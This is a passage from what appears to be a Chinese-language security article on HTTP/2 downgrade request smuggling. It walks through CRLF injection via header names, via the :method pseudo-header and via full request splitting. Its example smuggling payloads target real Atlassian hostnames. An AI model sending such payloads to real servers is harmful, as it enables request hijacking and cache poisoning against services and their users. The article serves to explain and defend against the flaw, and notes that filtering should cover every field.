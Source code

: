 上文提到，通过在header字段中，添加`\r\n`来进行Transfor-Encoding的注入，从而绕过HTTP/2协议中不允许Transfor-Encoding字段的规定，那么可以在header name中也实现注入，这种情况就需要另外一个危险字符`:`

[![](https://p5.ssl.qhimg.com/t0192b5711192353750.png)](https://p5.ssl.qhimg.com/t0192b5711192353750.png)

转换HTTP/1.1后，数据包为

```
GET / HTTP/1.1
foo: bar
transfer-encoding: chunked
host: ecosystem.atlassian.net
```

依旧可以使用Transfor-Encoding来进行走私。

#### <a class="reference-link" name="H2.TE%20%E9%80%9A%E8%BF%87%E8%AF%B7%E6%B1%82%E8%A1%8C%E6%B3%A8%E5%85%A5"></a>H2.TE 通过请求行注入

如果中间件只是修复了普通Header中关于危险字符的过滤，那么对于foo或者Transfor-Encoding字段来说，并不能使用，所以作者使用伪标头来进行注入，在HTTP/2中，所有标头字段名称均为小写，请求行拆分成各个`:method`、`:scheme`、`:authority` 和 `:path` 伪标头字段，以`:method`为例

[![](https://p1.ssl.qhimg.com/t015d5957aafa566c74.png)](https://p1.ssl.qhimg.com/t015d5957aafa566c74.png)

将走私请求直接注入到method中

```
GET / HTTP/1.1
transfer-encoding: chunked
x: x /ignored HTTP/1.1
Host: eco.atlassian.net
```

所以中间件对于header中危险字符的过滤，应该把所有字段都进行处理。

#### <a class="reference-link" name="H2.X%20%E9%80%9A%E8%BF%87%E8%AF%B7%E6%B1%82%E6%8B%86%E5%88%86"></a>H2.X 通过请求拆分

既然可以注入`\r\n`，作者又直接将整个走私请求注入到header处，以达成攻击。

[![](https://p2.ssl.qhimg.com/t015e2bf61ed5102932.png)](https://p2.ssl.qhimg.com/t015e2bf61ed5102932.png)

这种方式，更加简单粗暴，只要中间件在转换过程中，逐一识别危险字符`\r\n`，那么转换成的HTTP/1.1数据就为

```
GET / HTTP/1.1
Foo: bar
Host: ecosystem.atlassian.net
GET /robots.txt HTTP/1.1
X-Ignore: x
Host: ecosystem.atlassian.net\r\n
\r\n

```
